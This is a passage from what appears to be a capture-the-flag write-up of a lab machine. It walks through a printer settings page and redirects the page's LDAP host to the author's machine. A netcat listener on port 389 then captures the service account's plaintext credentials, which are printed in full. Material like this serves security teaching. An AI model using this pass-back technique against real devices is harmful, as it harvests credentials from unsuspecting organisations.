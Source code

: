     200      GET     1345l     2796w    28274c http://10.10.11.108/
    200      GET     1345l     2796w    28274c http://10.10.11.108/index.php
    200      GET     1376l     2855w    29090c http://10.10.11.108/settings.php
    [####################] - 1m    159504/159504  0s      found:4       errors:0      
    [####################] - 1m     53168/53168   515/s   http://10.10.11.108 
    [####################] - 1m     53168/53168   516/s   http://10.10.11.108/images 
    [####################] - 1m     53168/53168   515/s   http://10.10.11.108/ 
    

Nothing new or interesting there.

## Shell as svc-printer

### LDAP Credentials

#### In Page [Fail]

My first thought on seeing the `settings.php` page is that it’s populating the
“Password” field for me.

![image-20220503144802220](https://0xdfimages.gitlab.io/img/image-20220503144802220.png)

This could be a case where the actual password is being populated into this
field, and it’s just being displayed as `*`. But looking in Firefox dev tools,
it’s actually pre-filling that field with all `*`, not the password:

![image-20220503144842743](https://0xdfimages.gitlab.io/img/image-20220503144842743.png)

#### Request

When I submit this form, it sends a POST to `/settings.php`. The POST body
only has one argument:

    
    
    ip=printer.return.local
    

The other three fields in the form are not even sent. If the page does
anything with this input, the user can only change the host (or “ip”), and not
the port, username, or password.

#### Watch Request

I’ll change the hostname to my tun0 IP, and start `nc` listening on port 389.
I’ll also start Wireshark. On clicking “Update”, there’s a connection at `nc`:

    
    
    oxdf@hacky$ nc -lnvp 389
    Listening on 0.0.0.0 389
    Connection received on 10.10.11.108 60662
    0*`%return\svc-printer
                          1edFg43012!!
    

It’s probably clear from just that what the username and password that it’s
trying to authenticate, but Wireshark breaks it out more nicely:
